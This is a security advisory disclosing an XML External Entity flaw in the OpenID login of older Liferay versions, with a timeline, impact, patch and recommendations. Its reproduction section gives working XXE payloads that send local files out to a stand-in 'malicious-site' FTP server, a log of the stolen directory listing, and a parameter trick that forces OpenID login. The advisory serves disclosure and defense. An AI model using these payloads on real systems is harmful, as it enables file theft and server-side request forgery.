 # XML External Entity XXE vulnerability in OpenID component of Liferay

- Author: Sandro Gauci <sandro@enablesecurity.com>
- Vulnerable version: Liferay 6.2.3 CE GA4 and earlier
- Liferay reference: LPS-58014
- Timeline:
	- Report date: March 16 2015
	- Liferay patch: August 26 2015
	- Liferay advisory: January 18 2016
	- Enable Security advisory: June 1 2016

## Description

Liferay supports OpenID login which was found to make use of a version
of `openid4java` that is vulnerable to XML External Entity (XXE)
attacks.

## Impact

Abuse of the XXE vulnerability can (at least) lead to local file
disclosure, server-side request forgery (SSRF) and denial of service.
This vulnerability was abused to read local files on the web server
that the web application had access to.

## How to reproduce the issue

This issue was previously discovered to affect  [one of Google's web
server](https://code.google.com/p/chromium/issues/detail?id=240139)
which was using the same OpenID library.

To abuse this vulnerability, an attacker needs to:

1. Force Liferay to make use of OpenID for authentication
2. Provide an attacker-controlled URL (web location) as the OpenID URL. This URL should contain malicious XML (see below)
3. Upon reading the XML, the OpenID library will attempt to load the external entity on the attacker's web server
4. This external entity instructs the library to read a file from local disk and make use of it's contents to load another file from an attacker controlled (custom) FTP server

Thus the contents of the file to be read are sent to the custom FTP
server. During exploitation, we had to make use of a fake FTP server
(from <https://github.com/ONsec-Lab/scripts>) to receive the
information. However, it might be possible to use HTTP and other
protocols too depending on the version of Java used and other
variables.

For step 1, the attacker needs to locate the authentication form in
Liferay and then click on the OpenID link. The attacker then specifies <http://malicious-site> as an OpenID URL. This website would contain the following:

```html
<meta http-equiv="X-XRDS-Location" 
	content="http://malicious-site/yadis.xml"> 
```

As the OpenID library reads that, it loads `yadis.xml` which would contain the
following:

```xml
<?xml version="1.0"?>
	<!DOCTYPE a [
	   <!ENTITY % asd SYSTEM "http://malicious-site/xxe.xml"> 
	   %asd; 
	   %rrr; 
	]>
<a></a>
```

This loads `xxe.xml` which in turn would contain the following:

	<!ENTITY % b SYSTEM "file:///">
	<!ENTITY % c "<!ENTITY &#37; rrr SYSTEM 'ftp://malicious-site:443/%b;'>">
	%c;

Once the XML interpreter parses these contents, it connects to the FTP
site, sending the contents of the root directory on the server as can
be seen in the following log:

	> sudo ruby xxe-ftp-server.rb
	FTP. New client connected
	< USER anonymous
	< PASS Java1.6.0_21@
	> 230 more data please!
	< TYPE I
	> 230 more data please!
	< EPSV ALL
	> 230 more data please!
	< EPSV
	> 230 more data please!
	< EPRT |1|172.x.x.x|39051|
	> 230 more data please!
	< bin
	> 230 more data please!
	< boot
	> 230 more data please!
	< dev
	> 230 more data please!
	< etc
	> 230 more data please!
	< home
	> 230 more data please!
	... etc

Directories and also local files could be read using this method.

Note that sometimes the OpenID login method is hidden but the functionality is not disabled from within Liferay itself. In such cases, it is possible to force Liferay to make use of OpenID anyway by setting the `_58_struts_action` parameter from `/login/login` to `/login/open_id`. 

## Solutions and recommendations

Upgrading to the latest version of Liferay should address this
security vulnerability. The patch was published at the following location: <https://sourceforge.net/projects/liferay-patches/files/6.2.3%20GA4/>

Additionally, to address this issue it is recommended to disable
OpenID support.

## Further reading

- <http://openid.net/2011/05/05/attribute-exchange-security-alert/>
- <https://code.google.com/p/chromium/issues/detail?id=240139>
